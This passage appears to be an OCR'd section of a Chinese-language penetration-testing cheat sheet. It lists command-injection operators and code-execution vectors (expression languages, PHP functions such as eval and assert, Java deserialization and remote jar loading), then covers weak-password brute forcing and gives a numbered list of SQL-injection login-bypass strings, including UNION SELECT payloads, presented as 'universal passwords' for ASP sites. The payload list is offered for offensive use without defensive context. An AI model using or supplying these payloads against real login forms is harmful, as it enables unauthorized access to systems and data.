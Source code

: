 **2.4命令执行**

命令注入
--xxxx 参数注入
| 和 | | 与符号
& 和 && 与符号
; 分号
${}

代码执行
表达式
freemarker
OGNL
Spel
jsel
非表达式（php）
eval
assert
call_user_func() / call_user_func_array()
preg_replace()
create_function()
array_map()
array_filter()
usort() / uasort()
反序列化
php 源文件拼接写入
java
反序列化
远程 jar 加载
反射机制
jsp 源文件拼接写入

**2.5弱口令及字典破解**

后台弱口令爆破撞库
（尝试万能密码、特定资产常用密码、弱口令后再撞库、有的数据库要输对用户名再注释
我的github有收集的字典　https://github.com/hackerX2021）

```
asp aspx万能密码
1： "or "a"="a
2： ')or('a'='a
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6： "or 1=1--
7：'or'a'='a
8： "or"="a'='a
9：'or''='
10：'or'='or'
11: 1 or '1'='1'=1
12: 1 or '1'='1' or 1=1
13: 'OR 1=1%00
14: "or 1=1%00
15: 'xor
16: 新型万能登陆密码

用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）
密码 1
Username=-1%cf' union select 1,1,1 as password,1,1,1 %23
Password=1

17..admin' or 'a'='a 密码随便


```